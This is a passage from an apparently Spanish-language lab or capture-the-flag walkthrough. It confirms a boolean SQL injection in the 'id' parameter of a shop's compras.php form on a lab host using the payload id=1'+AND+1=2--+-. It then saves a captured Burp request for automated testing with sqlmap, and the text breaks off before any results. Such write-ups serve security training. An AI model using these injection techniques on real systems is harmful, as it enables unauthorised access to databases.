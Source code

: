 <figure><img src="../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

Cuando volvemos a la pagina vemos que el articulo se ha comprado de forma correcta, pero si ponemos alguna condicion que no se cumpla.

```
id=1'+AND+1=2--+-
```

<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

Cuando la enviemos veremos que el articulo no se ha comprado, por lo que hace caso a este tipo de inyecciones `blooleanas` por lo que podremos deducir que estamos antes un `SQL Injection booleano`.

Pero lo que vamos hacer para automatizar todo esto es utilizar la herramienta de `sqlmap` capturando la peticion de `BurpSuite` y utilizando dicha peticion para que obtenga el parametro vulnerable en este caso el `id` y haga sus pruebas en ese parametro.

## sqlmap

> request.txt

```
POST /compras.php HTTP/1.1
Host: neomarket.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://neomarket.bbl
Connection: keep-alive
Referer: http://neomarket.bbl/compras.php
Cookie: PHPSESSID=a38g9k6en1cd6p4mdhnmr6iduh; registros=2; consultas=6
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1&cantidad=1&buy_articulo=Comprar
```
